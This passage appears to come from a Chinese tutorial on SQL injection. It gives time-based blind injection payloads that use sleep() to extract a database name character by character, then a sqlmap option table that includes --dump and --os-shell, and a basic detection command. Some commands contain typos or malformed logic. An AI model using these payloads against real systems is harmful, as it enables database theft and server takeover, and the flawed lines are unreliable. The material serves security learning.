 #### 查询数据内容

**由于没有回显，我们只能利用一些函数来构造等式，判断数据内容**

**length() 函数返回一个字符串的长度，可以以用来判断字符串 sql 查询结果的长度**

```php
"判断当前数据库的名字的长度"
 and if(length(database)=8,sleep(3),1) -- +
  "使用指定字符一位一位判断截取到的字符"
and if(substr(database(),1,1)='x',sleep(3),1) -- +
   "截取制定长度，进行判断"
  and if(left(length(database()),8)='xxxxxx',sleep(3),1) -- +
    "可使用ascii函数，查询截取到字符的ascii码"
    and if(ascii(substr(databse(),1,1))=xxx,sleep(3),1)
```



## SQLMAP 自动化注入工具

**sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令**

#### 基本参数

| 参数            | 含义                                                         |
| --------------- | ------------------------------------------------------------ |
| -h              | 查看帮助手册                                                 |
| -u              | 指定URL地址                                                  |
| --dbs           | 列出所有数据库                                               |
| -cerrent-db     | 列出当前数据库                                               |
| -D              | 指定一个数据库                                               |
| --tables        | 列出所有表名                                                 |
| -T              | 指定一个表                                                   |
| -C              | 指定某一些字段                                               |
| --columns       | 列出所有字段名                                               |
| --dump          | 获取数据内容                                                 |
| -p              | 标记注入点（指定注入参数）                                   |
| --data          | 指定post参数eg：--data"userid=aaa&passwd=bbbb"               |
| -r              | 读取文件内容作为监测数据，进行注入检测eg：-r 1.txt           |
| --level         | 设置测试等级（1-5，默认1）lv2:cookie；lv3:user-agent，refere；lv5:host |
| --risk          | 升高风险等级会增加数据被篡改的风险。risk 2：基于事件的测试;risk 3：or语句的测试;risk 4 |
| -- random-agent | 随机ua进行测试                                               |
| --cookie        | 指定cookie进行请求测试                                       |
| --os-shell      | 获取交互式进行请求测试                                       |
| --dbms          | 指定数据库类型eg：--dbms=musql                               |
| --os            | 指定目标操作系统eg：--os=windows                             |
| --threads       | 设置线程1-10，默认1                                          |
| --skip          | \# 排除指定的参数                                            |
| --current-user  | 获取当前用户名                                               |
| --privileges    | 查看特权，常用。例： --privileges -U username (CU 就是当前用户) |
| --sql-shell     | 创建一个sql的交互式shell                                     |



#### sqlmap基本使用

1.检测注入点

检测是否存在sql注入漏洞，注意get型注入提交的url中要有含义参数

> python sqlmap.py -u 网址 (如果有多个参数点要加“ ”)
